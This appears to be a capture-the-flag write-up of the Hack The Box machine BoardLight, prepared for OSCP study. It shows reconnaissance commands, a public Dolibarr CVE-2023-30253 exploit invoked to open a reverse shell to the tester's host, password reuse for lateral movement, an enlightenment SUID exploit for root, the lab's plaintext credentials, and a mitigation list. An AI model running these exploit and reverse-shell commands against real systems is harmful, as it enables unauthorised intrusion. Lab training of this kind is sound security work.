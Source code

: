```yaml
---
title: BoardLight
date: 2025-06-04
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Linux, Dolibarr-CVE-RCE, enlightenment-SUID-privesc] 
image: board.png
media_subpath: /assets/img/posts/2025-06-04-boardlightHTB/
---
```


## Introduction

On the easy-rated Linux machine **BoardLight**, I discovered a `Dolibarr` application vulnerable to **CVE-2023-30253** (XSS leading to RCE). Exploiting it granted me a shell as `www-data`. By inspecting the web configuration files, I found plaintext credentials which enabled SSH access. Further enumeration revealed a `SUID` binary from `enlightenment` that was vulnerable to **CVE-2022-37706**. Using this flaw, I escalated privileges and obtained a root shell.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

<aside>
🚨

Run long gobuster scan

</aside>

## Services

### Port 22

Version - OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)

We usually skip SSH.

## Web

### Port 80

Version - Apache httpd 2.4.41 ((Ubuntu))

I saw a domain and added it to `/etc/hosts` file:

![image.png](image%202.png)

**Gobuster Scan**

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php -b 400,403,404
```

![image.png](image%203.png)

## Exploitation

Vhost Fuzzing

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://board.htb/ -H 'Host: FUZZ.board.htb' -fs 15949
```

![image.png](image%204.png)

I added the subdomain to `/etc/hosts` file and after that navigating there I found `Dolibarr 17.0.0` application, I used `admin`:`admin` and was able to login. Searching for public exploits I found the following blog [post](https://www.vicarius.io/vsociety/posts/exploiting-rce-in-dolibarr-cve-2023-30253-30254) about this vulnerability, and used it and got command execution. 

python3 CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -c id

![image.png](image%205.png)

Getting a reverse shell:

```bash
python3 CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -r 10.10.14.34 443
```

![image.png](image%206.png)

![image.png](image%207.png)

I see another user larissa we are supposed to do lateral movement.

![image.png](image%208.png)

## Lateral Movement to Larissa

Let’s get an interactive shell using python first:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

My user is restricted to see only its processes:

![image.png](image%209.png)

I have a [vulnerability](https://github.com/ECU-10525611-Xander/CVE-2022-37706/blob/main/exploit.sh) related to `enlightenment` binary, but for I suppose I should do lateral movement.

![image.png](image%2010.png)

![image.png](image%2011.png)

Searching for Dolibarr credentials I found the following location and found there credentials for `MySQL` database.

![image.png](image%2012.png)

![image.png](image%2013.png)

I didn’t find anything in database, but I used password for larissa user and was able to get a shell as larissa user.

## Privilege Escalation

- OSCP Checklist
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [x]  SUID/SGID
    - [x]  Capabilities
    - [x]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    - [ ]  Check running processes using `pspy`
    

Using the exploit that I found before I was able to get a root shell:

```bash
./exploit.sh
```

![image.png](image%2014.png)

## Credentials

```bash
dolibarrowner : serverfun2$2023!!
Larissa : serverfun2$2023!!
```

## Mitigation

- Update **Dolibarr** to the latest patched version to prevent XSS/RCE.
- Remove sensitive credentials from plaintext config files or secure them with proper file permissions.
- Regularly scan and audit for **SUID binaries**, especially those tied to known CVEs.
- Patch or remove vulnerable components like the affected `enlightenment` binary.
- Use application isolation or sandboxing for web services to limit exposure.
